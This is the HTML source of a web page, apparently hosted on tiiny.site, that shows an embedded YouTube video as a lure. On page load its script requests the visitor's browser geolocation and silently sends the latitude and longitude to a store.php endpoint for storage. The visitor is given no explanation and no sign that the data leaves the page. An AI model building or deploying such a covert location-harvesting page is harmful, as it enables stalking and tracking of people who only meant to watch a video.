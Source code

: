 <!DOCTYPE html>
<html>

<head>
  <script defer="" data-domain="jade-olia-29.tiiny.site" src="https://analytics.tiiny.site/js/plausible.js"></script><script defer="" data-domain="jade-olia-29.tiiny.site" src="https://analytics.tiiny.site/js/plausible.js"></script><script type="text/javascript" src="https://tiiny.host/ad-script.js"></script>
</head>

<body onload="getLocation()">
<iframe width="1155" height="500" src="https://www.youtube.com/embed/PFJAuAWxuvI">
</iframe>
<p id="demo"></p>

<script>
const x = document.getElementById("demo");

function getLocation() {
  if (navigator.geolocation) {
    navigator.geolocation.getCurrentPosition(success, error);
  } else { 
    x.innerHTML = "Geolocation is not supported by this browser.";
  }
}

function success(position) {
  const xhttp = new XMLHttpRequest();
  xhttp.open("GET", "store.php?lat="+position.coords.latitude + "&long=" +position.coords.longitude ); 
  xhttp.send();
}

function error() {
  alert("Sorry, no position available.");
}
</script>



</body></html>
